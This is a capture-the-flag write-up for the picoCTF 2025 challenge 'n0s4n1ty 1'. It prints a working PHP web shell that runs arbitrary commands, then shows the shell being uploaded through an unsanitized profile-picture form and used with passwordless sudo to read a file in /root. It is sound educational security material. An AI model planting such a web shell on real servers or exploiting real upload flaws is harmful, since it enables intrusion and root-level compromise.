

# n0s4n1ty 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Easy
Points: 100
Tags: Web Exploitation, picoCTF 2025, browser_webshell_solvable
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Author: Prince Niyonshuti N.

Description:
A developer has added profile picture upload functionality to a website. 
However, the implementation is flawed, and it presents an opportunity for you. 
Your mission, should you choose to accept it, is to navigate to the provided 
web page and locate the file upload area. Your ultimate goal is to find the 
hidden flag located in the /root directory.
You can access the web application here!

Hints:
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check sudo -l
```

Challenge link: [https://learn.cylabacademy.org/library/482](https://learn.cylabacademy.org/library/482)

## Solution

We browse to the web site and see the following



### Upload a web shell

We would like to get a [web shell](https://en.wikipedia.org/wiki/Web_shell) on the machine and we can use this small one (credits to [joswr1ght](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985))

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

Then we click `Choose File`, select our file (`web_shell.php`) and click `Upload Profile`.  
We get the following result

```text
The file web_shell.php has been uploaded Path: uploads/web_shell.php
```

### Use the web shell

Next, we navigate to the web shell (`http://standard-pizzas.picoctf.net:61542/uploads/web_shell.php`) and input `id`.  
The result is `uid=33(www-data) gid=33(www-data) groups=33(www-data)` so we can execute code.

Now we check `sudo -l` that returns

```text
Matching Defaults entries for www-data on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```

telling us we have unlimited sudo access as root.

### Get the flag

Finally, we use `sudo ls /root` to get the name of the flag which is `flag.txt`.  
And get the file contents with `sudo cat /root/flag.txt`.

For additional information, please see the references below.

## References

- [File upload vulnerabilities - PortSwigger](https://portswigger.net/web-security/file-upload)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [Unrestricted File Upload - OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Web shell - Wikipedia](https://en.wikipedia.org/wiki/Web_shell)
